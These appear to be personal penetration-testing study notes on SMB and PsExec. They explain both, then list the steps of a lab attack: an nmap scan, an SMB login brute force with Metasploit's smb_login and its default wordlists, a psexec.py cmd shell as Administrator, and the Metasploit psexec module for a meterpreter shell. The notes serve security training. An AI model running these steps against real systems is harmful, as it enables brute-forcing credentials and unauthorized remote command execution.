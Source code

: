 SMB with PsExec
#### SMB
- a network file sharing protocol that is used to facilitate the sharing files and peripherals between computer and networks
- port 445.However smb ranot top of NetBIOS using port 139
- SAMBA is the open source linux implementation of SMB,and allows Windows systems to access Linux shares and devices
- smb uses two level of authentication namely user authentication and share authentication
#### PsExec
- PsExec is a lightweight telnet-replacecement developed by Microsoft that allows you execute processes on remote windows systems using any user's credentials
- PsExec authentication is performed via SMB
- We can use the PsExec utility to authenticate with the target system legitimately and run arbitrary commands or launch a remote command prompt
- It is very similar to RDP, however, instead of controlling the remote system via GUI, commands are sent via CMD.
  
#### Process of SMB Exploitation with PsExec
- In oder to utilize PxExec to again access to a windows target,we will need to identify legitimate user accounts and their respective passwords or passwords hashes
- This can be done various tools,however most common technique will involve performing an SMB logging brute force attack
- We can narrow down our brute force attack to only common windows user  accounts like: Administrator
- then we can authenticate with the target using credentials via PsExec and execute arbitrary commands


#### Exploit
- nmap -sV -sC 10.2.24.221 [ confirm smb is running]
- service postresql start
- msfconsole
- search smb_login
- set all parameters requires [this will retrive users and password]
-psexec.py Adminitrator@10.2.24.221 cmd.exe [ here we need cmd shell that's why we use cmd.exe]
- this will give us cmd prompt
#### msf module
- search psexec
- use  exploit/windows/smb/psexec  
- set password,user,rhost and everything necessary
- run
- this will give us meterpreter shell
- sysinfo [ to get system info]
- getuid [ getting uid]
- shell [ getting a shell]


#### wordlists
- user=/usr/share/metasploit-framework/data/wordlists/common_users.txt
- pass=/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

